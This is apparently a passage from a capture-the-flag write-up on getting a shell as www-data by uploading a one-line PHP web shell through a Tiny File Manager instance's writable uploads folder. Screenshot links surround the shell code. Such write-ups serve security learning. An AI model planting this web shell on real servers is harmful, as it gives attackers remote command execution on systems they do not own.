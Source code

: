 ![tiny file](Wed-10-2024_14-41.png)

## Shell as www-data
I try to upload files to various locations but get the error *"The specified location isn't writable"*. I find that the only place I upload to is `/tiny/uploads`. 

I write a simple php webshell to a file called `shell.php`:
```php
<?php system($_REQUEST['cmd']); ?>
```

![shell upload](Wed-10-2024_14-49.png)
![shell](Wed-10-2024_14-49_1.png)